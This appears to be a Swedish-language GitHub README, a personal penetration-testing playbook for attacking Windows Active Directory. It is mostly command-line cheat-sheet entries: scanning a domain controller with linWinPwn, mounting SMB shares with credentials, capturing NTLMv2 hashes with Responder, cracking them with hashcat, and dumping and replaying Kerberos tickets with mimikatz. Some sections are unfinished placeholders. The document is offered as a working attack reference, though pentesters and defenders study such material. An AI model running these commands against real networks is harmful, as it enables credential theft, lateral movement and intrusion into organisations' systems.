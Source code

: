# Gunnajs-Playbook
En svensk penetrationsvägvisare

## Tools bby

### linWinPwn - Active Directory Vulnerability Scanner
https://github.com/lefayjey/linWinPwn
### mimikatz
https://github.com/ParrotSec/mimikatz
### Responder
https://github.com/lgandx/Responder
# VEV

## linWinPwn 
```bash
sudo ./linWinPwn.sh -t <Domän_Kontrollant_IP> -u <AD_konto> -p <AD_lösen>
```
## SMB VEV
### Montera mapp
```bash
sudo mount.cifs <//ip/mapp> <./mapp> -o user=<användare>,password=<lösen>,dom=<domän.com>
```
### Avmontera mapp
```bash
sudo umount.cifs <./mapp>
```
### Söka efter nyckelord
```bash
grep -i <nyckelord> *
```
## Nmap
* in the making 

## Zero Logon
* in the making 
## Responder
### Veva igång responder
```bash
responder -I eth0 -v
```
### Cracka NTLMv2 hashar
```bash
hashcat64.exe -m 5600 ntlm-hashes.txt <lösenlista.txt> -o cracked.txt
```

## Mimikatz
### Dump tickets
```bash
mimikatz.exe
privilege::debug
sekurlsa::tickets /export
```
### Pass the ticket
```bash
mimikatz.exe
kerberos::ptt <ticket>
klist
```
